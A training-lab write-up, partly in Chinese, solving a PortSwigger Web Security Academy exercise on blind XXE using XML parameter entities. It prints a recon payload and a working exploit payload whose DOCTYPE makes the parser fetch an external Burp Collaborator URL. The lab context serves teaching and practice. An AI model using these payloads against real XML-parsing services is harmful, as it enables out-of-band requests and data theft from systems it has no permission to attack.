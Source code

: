 # Lab: Blind XXE with out-of-band interaction via XML parameter entities
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
* Goal: To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
* Hint: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Background
這一題會用到Parameter Entity，也就是當server端擋掉外部的entity輸入時，可以直接在`DOCTYPE`中直接Reference，也就是利用`%`這個字元達到這個效果

## Recon
* Create a new entity and reference it
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/H1hEjtUNh.png)
    Seems not work properly...


## Exp
* Use Parameter Entity
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://a1cby8s3b3bvzxlb8cfaw4jvqmwfk4.burpcollaborator.net"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/rJh0sYLEn.png)

---
![](https://hackmd.io/_uploads/rk7H2FL42.png)
:::

## Reference
[XXE Lab Breakdown: Blind XXE with out-of-band interaction via XML parameter entities](https://youtu.be/xjcSMFKVTW4)
[Lab: Blind XXE with out-of-band interaction via XML parameter entities](https://www.cnblogs.com/Zeker62/p/15190054.html)